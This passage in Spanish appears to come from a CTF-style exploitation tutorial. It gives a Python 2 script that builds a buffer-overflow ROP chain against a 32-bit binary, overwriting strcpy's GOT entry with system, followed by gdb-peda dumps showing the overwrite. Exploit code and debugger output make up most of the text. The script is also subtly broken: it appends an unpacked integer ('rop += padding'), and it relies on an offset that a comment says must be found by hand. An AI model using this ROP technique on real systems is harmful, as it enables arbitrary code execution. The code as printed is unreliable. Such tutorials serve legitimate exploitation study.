 ```python
#!/usr/bin/python

from struct import pack
junk = "A" * 64 + "dcba" + "A" * 12  # 80 bytes

## ROP gadgets ##
gadget1 = pack('<I', 0x8048545) # (1) pop ebx ; pop esi ; pop edi ; pop ebp ;;
gadget2 = pack('<I', 0x804842b) # (2) xchg edi eax ; add al 0x8 ; add [ebx+0x5d5b04c4] eax ;;

# OPERACIONES CONDICIONADAS POR LOS GADGETS

padding = 0xdeadbeef
offset = 0xfffb3840 - 0x8				# El offset hay que calcularlo en gdb, no funciona lo anterior
strcpy_got = (0x08049710-0x5d5b04c4) & 0xFFFFFFFF       # 0xaaa9924c = strcpy@GOT - 0x5d5b04c4 for the gadget (2)
strcpy_plt = 0x08048368					# strcpy@PLT
gnu_string = 0x8048154                          	# "GNU\x00" from note.gnu.build-id


## PAYLOAD ##
rop = gadget1                    # pop ebx ; pop esi ; pop edi ; pop ebp ;;
rop += pack('<I', strcpy_got)    # EBX = strcpy@GOT - 0x5d5b04c4
rop += pack('<I', padding)       # ESI = padding
rop += pack('<I', offset)        # EDI = offset - 8
rop += pack('<I', padding)       # EBP = padding
 
rop += gadget2                   # EAX = OFFSET system-strcpy
                                 # [ebx+0x5d5b04c4] (strcpy@GOT) + EAX = system
 
rop += pack('<I', strcpy_plt)    # strcpy@PLT
rop += padding                   # return address
rop += pack('<I', gnu_string)    # "GNU" string
 
payload = junk + rop
 
print payload
```

Si debugeamos el programa anterior, vemos que antes de ejecutar la instrucción "add [ebx+0x5d5b04c4] eax" tenemos aún el valor del GOT de strcpy en memoria:
```
gdb-peda$ x/32xw 0x08049710
0x8049710 <strcpy@got.plt>:	0xb7e7f2f0	0x0804837e	0x0804838e	0xb7e57870
```
Una vez ejecutada la instrucción, vemos como ha cambiado al valor de system, ¡magia borragia!
```
gdb-peda$ x/32xw 0x08049710
0x8049710 <strcpy@got.plt>:	0xb7e32b30	0x0804837e	0x0804838e	0xb7e57870
```

Comprobamos que funciona si terminamos de ejecutarlo:
